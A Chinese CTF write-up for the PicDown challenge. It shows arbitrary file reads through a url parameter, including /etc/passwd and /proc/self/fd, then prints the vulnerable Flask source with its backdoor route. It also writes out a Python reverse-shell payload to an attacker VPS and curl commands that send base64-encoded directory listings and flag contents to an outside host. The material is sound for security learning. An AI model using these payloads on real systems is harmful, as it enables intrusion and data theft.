 ```yaml
---
title: '[网鼎杯 2020 白虎组]PicDown'
date: 2024-06-08 17:04:52
tags: shell反弹
categories: 刷题笔记
---
```


### [网鼎杯 2020 白虎组]PicDown（ncshell反弹

）

### 非预期解

```
/etc/passwd
```

![image-20240603210859418](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406032109597.png)

存在任意文件读取漏洞，我们直接访问flag

<!-- more -->

```
/flag
```

![image-20240603211004900](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406032110050.png)

得到flag

### 预期解

首先通过proc查看系统进程

> 在linux中，proc是一个虚拟文件系统，也是一个控制中心，里面储存是当前内核运行状态的一系列特殊文件；该系统只存在内存当中，以文件系统的方式为访问系统内核数据的操作提供接口，可以通过更改其中的某些文件来改变内核运行状态。它也是内核提供给我们的查询中心，用户可以通过它查看系统硬件及当前运行的进程信息。
> /proc/pid/cmdline 包含了用于开始进程的命令 ；
> /proc/pid/cwd 包含了当前进程工作目录的一个链接 ；
> /proc/pid/environ 包含了可用进程环境变量的列表 ；
> /proc/pid/exe 包含了正在进程中运行的程序链接；
> /proc/pid/fd/ 这个目录包含了进程打开的每一个文件的链接；
> /proc/pid/mem 包含了进程在内存中的内容；
> /proc/pid/stat 包含了进程的状态信息；
> /proc/pid/statm 包含了进程的内存使用信息。

查看启动进程的命令

```
/page?url=/proc/self/cmdline
```

![image-20240603211548099](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406032115216.png)

发现app.py文件，使用任意文件读取漏洞读取文件

```
/page?url=app.py
```

得到源码

```
from flask import Flask, Response
from flask import render_template
from flask import request
import os
import urllib

app = Flask(__name__)

SECRET_FILE = "/tmp/secret.txt"
f = open(SECRET_FILE)
SECRET_KEY = f.read().strip()
os.remove(SECRET_FILE)


@app.route('/')
def index():
    return render_template('search.html')


@app.route('/page')
def page():
    url = request.args.get("url")
    try:
        if not url.lower().startswith("file"):
            res = urllib.urlopen(url)
            value = res.read()
            response = Response(value, mimetype='application/octet-stream')
            response.headers['Content-Disposition'] = 'attachment; filename=beautiful.jpg'
            return response
        else:
            value = "HACK ERROR!"
    except:
        value = "SOMETHING WRONG!"
    return render_template('search.html', res=value)


@app.route('/no_one_know_the_manager')
def manager():
    key = request.args.get("key")
    print(SECRET_KEY)
    if key == SECRET_KEY:
        shell = request.args.get("shell")
        os.system(shell)
        res = "ok"
    else:
        res = "Wrong Key!"

    return res


if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8080)
```

进行代码审计：

1. **程序起始部分**
   在/tmp/secret.txt路径下读取了密钥，并且保存在SECRET_KEY变量里面，然后在系统上删除了源文件，导致我们无法通过任意文件读取漏洞获取密钥。但是没有关闭文件流f，所以我们能够在/proc/self/fd/xxx里找到进程打开的文件信息。
2. **page函数**
   这个就是提交主页参数后进行的逻辑，使用url参数提交，可以重定向到输入的url。
3. **manager函数**
   接口路由/no_one_know_the_manager，接口接收两个参数key和shell，如果key的值和之前读取的密钥SECRET_KEY相等，那么就调用os.system()函数执行shell参数传入的命令，但是不回显结果。

首先获取SECERT_KEY的值

```
/page?url=/proc/self/fd/3
```

![image-20240603212131581](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202406032121725.png)

然后调用manager函数反弹shell即可，其中`xx.xx.xx.xx`为VPS地址，端口任意指定。

```
/no_one_know_the_manager?key=MIkqY/cmvTlyt1V1bQ0A8XbJWHAkgxkgb6lVaF3+SmY=&shell=export%20RHOST%3d"xx.xx.xx.xx";export%20RPORT%3d20101;python%20-c%20'import%20sys,socket,os,pty;s%3dsocket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd)%20for%20fd%20in%20(0,1,2)];pty.spawn("sh")'
```

服务端起监听，根目录下读取flag文件即可。

![image-20240608170557287](C:/Users/11/AppData/Roaming/Typora/typora-user-images/image-20240608170557287.png)



**curl反弹shell**

客户机监听端口3333

```
nc -lvp 3333

no_one_know_the_manager?key=lxzY3xvJIDngLAx7RogcmxYWJX5MOWEKSCyT36xso7k=&shell=curl ip:port/`ls /|base64`

no_one_know_the_manager?key=lxzY3xvJIDngLAx7RogcmxYWJX5MOWEKSCyT36xso7k=&shell=curl ip:port/`cat /flag|base64
```

执行的命令分别是

```
ls /|base64
cat /flag|base64
```

base64解码就行

![在这里插入图片描述](https://img-blog.csdnimg.cn/4263b1cc60514d51aa7f8b186f9e5528.png)

